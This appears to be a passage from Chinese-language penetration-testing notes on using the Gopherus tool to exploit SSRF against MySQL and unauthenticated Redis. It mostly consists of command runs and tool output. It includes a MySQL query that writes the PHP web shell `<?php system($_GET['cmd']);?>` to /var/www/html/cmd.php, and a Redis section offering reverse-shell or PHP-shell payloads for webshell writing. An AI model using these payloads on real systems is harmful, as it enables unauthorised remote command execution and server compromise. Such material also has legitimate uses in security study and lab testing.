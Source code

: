 写入一句话木马

```
python2 gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select "<?php system($_GET['cmd']);?>" into outfile '/var/www/html/cmd.php';
```

# 13.SSRF对redis未授权webshell写入

默认端口：6379

```
python2 gopherus.py --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): PHPShell

Give web root location of server (default is /var/www/html): /var/www/html
Give PHP Payload (We have default PHP Shell): 
```

